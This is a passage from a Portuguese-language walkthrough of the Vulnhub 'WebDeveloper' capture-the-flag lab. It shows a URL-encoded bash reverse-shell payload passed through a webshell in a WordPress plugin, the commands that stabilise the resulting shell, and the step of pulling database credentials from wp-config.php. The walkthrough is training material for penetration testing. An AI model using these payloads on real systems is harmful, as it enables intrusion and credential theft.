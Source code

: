 Agora passamos o nosso payload via URL

```
192.168.110.12/wp-content/plugins/akismet/index.php?cmd=%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%31%30%2e%33%2f%34%34%33%20%30%3c%26%31
```

Para conseguir o shell reverso, primeiramente invocamos o bash para conseguir melhorar o shell posteriormente, depois deixamos a porta aberta. Depois de passar o payload via URL recebemos o shell do alvo!

![](/assets/img/Vulnhub/WebDeveloper/shell-Reverso.png)


### Shell Interativo

Importamos o tty, no shell do alvo, com o seguinte comando:

```bash
python3 -c "__import__('pty').spawn('/bin/bash')"
```

Depois **CTRL+Z**

No shell da kali digitar o seguinte comando:

```bash
stty raw -echo
```

Depois digitar **fg** e apertar **Enter** duas vezes

Pronto, agora temos um shell mais performatico!


# Usuario www-data

Conseguimos achar a credencial para acessar o banco de dados no arquivo **/var/www/html/wp-config.php**

![](/assets/img/Vulnhub/WebDeveloper/wwwData-wpConfig.png)
